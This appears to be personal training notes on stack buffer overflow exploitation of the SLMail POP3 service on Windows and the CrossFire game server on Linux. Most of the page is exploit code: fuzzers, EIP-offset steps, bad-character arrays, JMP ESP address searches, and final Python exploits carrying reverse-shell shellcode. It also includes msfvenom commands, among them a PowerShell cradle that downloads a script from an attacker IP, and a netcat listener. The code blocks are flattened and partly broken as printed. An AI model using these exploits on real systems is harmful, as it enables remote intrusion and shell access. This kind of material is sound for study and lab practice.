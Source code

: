 - **Methodology**
    
    1. Build your lab
    2. Fuzzing
    3. Control the EIP
    4. Locating Space for our shellcode
    5. Checking for bad chracters
    6. Find Return Addresses
    7. Getting a Shell
    
- **Very basic python exploit template**
    
    ```
    #!/usr/bin/pythonimport sockets = socket.socket(socket.AF_INET, socket.SOCK_STREAM)ip = '10.11.25.153'port = 110buffer = 'A' * 2700try:    print "\nLaunching exploit..."    s.connect((ip, port))    data = s.recv(1024)    s.send('USER username' +'\r\n')    data = s.recv(1024)    s.send('PASS ' + buffer + '\r\n')    print "\nFinished!."except:    print "Could not connect to "+ip+":"+port
    ```
    
- **SLMail service [Windows Exploiting]**
    
    - Build your LAB
        
        ```
        Start installing the SLMail service# Restart SLMail servicenet start slmail# Change Immunity Debugger FontOptions >> Appearance >> Fonts >> Change(Consolas, Blod, 9) >> OK# Attach the proces to Immunity Debugger:File --> Attach --> start Button
        ```
        
    - Fuzzing
        
        ```
        #!/usr/bin/python# Send the exploit and check if EIP is affected:import sockets = socket.socket(socket.AF_INET, socket.SOCK_STREAM)ip = '10.11.25.153'port = 110buffer = 'A' * 2700try:    print "\nLaunching exploit..."    s.connect((ip, port))    data = s.recv(1024)    s.send('USER username' +'\r\n')    data = s.recv(1024)    s.send('PASS ' + buffer + '\r\n')    print "\nFinished!."except:    print "Could not connect to "+ip+":"+port
        ```
        
    - Control The EIP
        
        1. **Create a pattern to modify the EIP**
            
            ```
            /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000# Change the buffer of the exploit and set the pattern and lauch the exploit.# A new crash should appeard, but with a different EIP address:
            ```
            
        2. Check if the address was in your pattern:
            
            ```
            /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 39694438# Looks like we can modify the EIP in offset 2606 of the buffer.
            ```
            
        3. Check it modifing the buffer of the exploit:
            
            ```
            buffer = 'A'*2606 + 'BBBB' + 'CCCC'# With this buffer the EIP crashed should point to 42424242 ("BBBB")
            ```
            
        
    - Locating Space for our shellcode
        
        ```
        # 600B should be enough for any powerfull shellcode.buffer = 'A'*2606 + 'BBBB' + 'C'*600# launch the new exploit and check the EBP and the length of the usefull shellcode
        ```
        
        You can see that when the vulnerability is reached, the EBP is pointing to the shellcode and that we have a lot of space to locate a shellcode here.
        
        In this case we have **from 0x0209A128 to 0x0209A2D6 = 430B.** Enough
        
    - **Check for bad chars**
        
        ```
        # Change again the buffer:# The badchars starts in 0x01 because 0x00 is almost always bad.badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10""\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20""\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30""\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40""\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50""\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60""\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70""\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80""\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90""\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0""\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0""\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0""\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0""\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0""\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0""\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")buffer = 'A'*2606 + 'BBBB' + badchars
        ```
        
        Execute repeatedly the exploit with this new buffer delenting the chars that are found to be useless:.
        
        For example:
        
        In this case you can see that **you shouldn't use the char 0x0A** (nothing is saved in memory since the char 0x09).
        
        In this case you can see that **the char 0x0D is avoided**:
        
    - Find Return Addresses
        
        ```
        !mona modules    # Get protections, look for all false except last one (Dll of SO)# Now, inside this memory you should find some JMP ESP bytes, to do that execute:!mona find -s "\xff\xe4" -m name_unsecure.dll # Search for opcodes insie dll space (JMP ESP)!mona find -s "\xff\xe4" -m slmfc.dll # Example in this case# In this case, for example: _0x5f4a358f_
        ```
        
        You will **list the memory maps**. Search for some DLl that has:
        
        > **Rebase: False SafeSEH: False ASLR: False NXCompat: False OS Dll: True**
        
    - Getting a Shell
        
        1. **Create shellcode**
            
            ```
            msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.41 LPORT=443 -f c -b '\x00\x0a\x0d'msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.11.0.41/nishang.ps1')\"" -f python -b '\x00\x0a\x0d'
            ```
            
        2. **Add some NOPS at the beginning** of the shellcode and use it and the return address to JMP ESP, and finish the exploit:
            
            ```
            #!/usr/bin/pythonimport sockets = socket.socket(socket.AF_INET, socket.SOCK_STREAM)ip = '10.11.25.153'port = 110shellcode = ("\xb8\x30\x3f\x27\x0c\xdb\xda\xd9\x74\x24\xf4\x5d\x31\xc9\xb1""\x52\x31\x45\x12\x83\xed\xfc\x03\x75\x31\xc5\xf9\x89\xa5\x8b""\x02\x71\x36\xec\x8b\x94\x07\x2c\xef\xdd\x38\x9c\x7b\xb3\xb4""\x57\x29\x27\x4e\x15\xe6\x48\xe7\x90\xd0\x67\xf8\x89\x21\xe6""\x7a\xd0\x75\xc8\x43\x1b\x88\x09\x83\x46\x61\x5b\x5c\x0c\xd4""\x4b\xe9\x58\xe5\xe0\xa1\x4d\x6d\x15\x71\x6f\x5c\x88\x09\x36""\x7e\x2b\xdd\x42\x37\x33\x02\x6e\x81\xc8\xf0\x04\x10\x18\xc9""\xe5\xbf\x65\xe5\x17\xc1\xa2\xc2\xc7\xb4\xda\x30\x75\xcf\x19""\x4a\xa1\x5a\xb9\xec\x22\xfc\x65\x0c\xe6\x9b\xee\x02\x43\xef""\xa8\x06\x52\x3c\xc3\x33\xdf\xc3\x03\xb2\x9b\xe7\x87\x9e\x78""\x89\x9e\x7a\x2e\xb6\xc0\x24\x8f\x12\x8b\xc9\xc4\x2e\xd6\x85""\x29\x03\xe8\x55\x26\x14\x9b\x67\xe9\x8e\x33\xc4\x62\x09\xc4""\x2b\x59\xed\x5a\xd2\x62\x0e\x73\x11\x36\x5e\xeb\xb0\x37\x35""\xeb\x3d\xe2\x9a\xbb\x91\x5d\x5b\x6b\x52\x0e\x33\x61\x5d\x71""\x23\x8a\xb7\x1a\xce\x71\x50\x2f\x04\x79\x89\x47\x18\x79\xd8""\xcb\x95\x9f\xb0\xe3\xf3\x08\x2d\x9d\x59\xc2\xcc\x62\x74\xaf""\xcf\xe9\x7b\x50\x81\x19\xf1\x42\x76\xea\x4c\x38\xd1\xf5\x7a""\x54\xbd\x64\xe1\xa4\xc8\x94\xbe\xf3\x9d\x6b\xb7\x91\x33\xd5""\x61\x87\xc9\x83\x4a\x03\x16\x70\x54\x8a\xdb\xcc\x72\x9c\x25""\xcc\x3e\xc8\xf9\x9b\xe8\xa6\xbf\x75\x5b\x10\x16\x29\x35\xf4""\xef\x01\x86\x82\xef\x4f\x70\x6a\x41\x26\xc5\x95\x6e\xae\xc1""\xee\x92\x4e\x2d\x25\x17\x7e\x64\x67\x3e\x17\x21\xf2\x02\x7a""\xd2\x29\x40\x83\x51\xdb\x39\x70\x49\xae\x3c\x3c\xcd\x43\x4d""\x2d\xb8\x63\xe2\x4e\xe9")buffer = 'A' * 2606 + '\x8f\x35\x4a\x5f' + "\x90" * 8 + shellcodetry:    print "\nLaunching exploit..."    s.connect((ip, port))    data = s.recv(1024)    s.send('USER username' +'\r\n')    data = s.recv(1024)    s.send('PASS ' + buffer + '\r\n')    print "\nFinished!."except:    print "Could not connect to "+ip+":"+port
            ```
            
            > There are shellcodes that will ==**overwrite themselves**==, therefore it's important to always add some ==NOPs== before the shellcode
            
        3. **Improving the shellcode**
            
            ```
            EXITFUNC=thread -e x86/shikata_ga_nai
            ```
            
        
    
- **CrossFire service [ linux Exploitation ]**
    
    - Buil the lab
        
        ```
        # install dependencies#!/bin/bashsudo apt-get update -ysudo apt-get install -y edb-debuggersudo dpkg --add-architecture i386sudo echo "foreign-architecture i386" > /etc/dpkg/dpkg.cfg.d/multiarchsudo apt-get updatesudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386sudo apt-get install multiarch-supportsudo apt-get install libxaw7 libxaw7-dev -ysudo apt install checksecwget www.offensive-security.com/crossfire.tar.gztar -zxf crossfire.tar.gzsudo cp -r crossfire /usr/games/checksec --file=/usr/games/crossfire/bin/crossfire-----------------------------------------# Disable NXsudo nano /etc/default/grub\#add this line with GRUB_CMDLINE_LINUX_DEFAULT="quiet\#To be\#GRUB_CMDLINE_LINUX_DEFAULT="quiet noexec=off noexec32=off"noexec=off noexec32=offsudo update-grub
        ```
        
    - Fuzzing
        
        ```
        import socketshost=192.168.1.5port=13327overflow='A'*4379buffer="\x11(setup sound " + overflow + "\x90\x00#"s=sockets.socket()s.connect((host,port))print s.recv(1024)s.send(buffer)s.close()
        ```
        
    - Control EIP
        
        1. Create Pattern
            
            ```
            msf-pattern_create -l 4379
            ```
            
        2. locate the EIP
            
            ```
            import socketshost=192.168.1.5port=13327\#overflow='A'*4379overflow="" # put pattern here buffer="\x11(setup sound " + overflow + "\x90\x00#"s=sockets.socket()s.connect((host,port))print s.recv(1024)s.send(buffer)s.close()
            ```
            
            ```
            msf-pattern_offset -l 4379 -q 46367046
            ```
            
        3. control EIP
            
            ```
            import socketshost=192.168.1.5port=13327overflow='A'*4379+'BBBB'+'C'*7buffer="\x11(setup sound " + overflow + "\x90\x00#"s=sockets.socket()s.connect((host,port))print s.recv(1024)s.send(buffer)s.close()
            ```
            
        
    - Locate space for shell code
        
        in edb deppuger
        
        Plugins > Breakpoint Manager > 0x08071e4e
        
        ```
        import sockets# jmp esp 08134596# 08071e4e jmp eax# 83C00C add EAX, 12# FFE0 jmp EAXhost=192.168.1.5port=13327step1='\x83\xC0\x0C\xFF\xE0\x90\x90'overflow = "A" * 4368 + '\x96\x45\x13\x08' + step1buffer="\x11(setup sound " + overflow + "\x90\x00#"s=sockets.socket()s.connect((host,port))print s.recv(1024)s.send(buffer)s.close()
        ```
        
    - Checking for bad chracters
        
        ```
        # Create Shell code for i in {0..255}; do printf "\\x%02x" $i; done# find_bad_characters.pyimport sockets# jmp esp 08134596# 08071e4e jmp eax# 83C00C add EAX, 12# FFE0 jmp EAXhost=192.168.1.5port=13327step1='\x83\xC0\x0C\xFF\xE0\x90\x90'bad="" # Add Pattern Hereoverflow = "A" * 4368 + '\x96\x45\x13\x08' + step1buffer="\x11(setup sound " + overflow + "\x90\x00#"s=sockets.socket()s.connect((host,port))print s.recv(1024)s.send(buffer)s.close()
        ```
        
    - Find Return Address
        
        ```
        # jmp esp 08134596# 08071e4e jmp eax# 83C00C add EAX, 12# FFE0 jmp EAX
        ```
        
    - Getting the Shell
        
        Create Shell code
        
        ```
        msfvenom -p linux/x86/shell_reverse_tcp_LHOST=192.168.1.3 LPORT=443 -b "\x00\x20" -f py -v shell
        ```
        
        Exploit
        
        ```
        import sockets# jmp esp 08134596# 08071e4e jmp eax# 83C00C add EAX, 12# FFE0 jmp EAXhost=192.168.1.5port=13327shell= b""shell+=b"\xda\xdb\xd9\x74\x24\xf4\xb8\xd0\xa3\x8b\x63\x5d"shell+=b"\x2b\xc9\xb1\x12\x31\x45\x17\x03\x45\x17\x83\x3d"shell+=b"\x5f\x69\x96\x8c\x7b\x99\xba\xbd\x38\x35\x57\x43"shell+=b"\x36\x58\x17\x25\x85\x1b\xcb\xf0\xa5\x23\x21\x82"shell+=b"\x8f\x22\x40\xea\xcf\x7d\xb3\xe9\xa7\x7f\xb4\xec"shell+=b"\x8c\x09\x55\x5e\x94\x59\xc7\xcd\xea\x59\x6E\x10" shell+=b"\xc1\xde\x22\xba\xb4\xf1\xb1\x52\x21\x21\x19\xc0"shell+=b"\xd8\xb4\x86\x56\x48\x4e\xa9\xe6\x65\x9d\xaa"step1= '\x83\xC0\x0C\xFF\xE0\x90\x90'overflow = '\x90'*16 + shell + "\x90" (4368-16-len(shell))+ '\x96\x45\x13\x08' + steplbuffer="\x11(setup sound " + overflow + "\x90\x00#"s=sockets.socket()s.connect((host,port))print s.recv(1024)s.send(buffer)s.close()
        ```
        
        Listen in attacker machine
        
        ```
        sudo nc -nlvp 443
        ```